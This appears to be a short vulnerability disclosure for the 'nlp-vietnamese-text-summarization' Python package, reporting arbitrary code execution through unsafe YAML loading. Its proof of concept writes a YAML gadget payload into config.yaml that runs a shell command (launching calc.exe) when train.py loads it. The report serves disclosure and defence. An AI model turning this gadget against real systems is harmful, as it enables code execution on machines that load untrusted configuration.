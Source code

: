 # Description

`nlp-vietnamese-text-summarization` package is vulnerable to `Arbitary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import os

#os.system('https://github.com/ngockhanh5110/nlp-vietnamese-text-summarization')
os.chdir('nlp-vietnamese-text-summarization/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('config.yaml','w+').write(payload)
os.system('python3 train.py')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
